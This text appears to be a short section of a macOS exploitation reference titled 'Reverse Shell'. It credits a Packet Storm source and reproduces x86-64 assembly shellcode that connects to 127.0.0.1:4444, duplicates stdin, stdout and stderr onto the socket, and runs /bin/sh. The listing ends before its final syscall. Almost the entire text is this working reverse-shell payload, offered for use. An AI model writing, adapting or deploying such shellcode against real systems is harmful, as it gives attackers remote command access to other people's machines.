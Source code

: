 #### Reverse Shell

Reverse shell from [https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html). Reverse shell to **127.0.0.1:4444**

```armasm
section .text
global _main
_main:
    ; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
    xor  rdi, rdi
    mul  rdi
    mov  dil, 0x2
    xor  rsi, rsi
    mov  sil, 0x1
    mov  al, 0x2
    ror  rax, 0x28
    mov  r8, rax
    mov  al, 0x61
    syscall

    ; struct sockaddr_in {
    ;         __uint8_t       sin_len;
    ;         sa_family_t     sin_family;
    ;         in_port_t       sin_port;
    ;         struct  in_addr sin_addr;
    ;         char            sin_zero[8];
    ; };
    mov  rsi, 0xfeffff80a3eefdf0
    neg  rsi
    push rsi
    push rsp
    pop  rsi

    ; connect(sockid, &sockaddr, 16)
    mov  rdi, rax
    xor  dl, 0x10
    mov  rax, r8
    mov  al, 0x62
    syscall

    xor rsi, rsi
    mov sil, 0x3

dup2:
    ; dup2(sockid, 2)
    ;   -> dup2(sockid, 1)
    ;   -> dup2(sockid, 0)
    mov  rax, r8
    mov  al, 0x5a
    sub  sil, 1
    syscall
    test rsi, rsi
    jne  dup2

    ; execve("//bin/sh", 0, 0)
    push rsi
    mov  rdi, 0x68732f6e69622f2f
    push rdi
    push rsp
    pop  rdi
    xor  rdx, rdx
    mov  rax, r8
```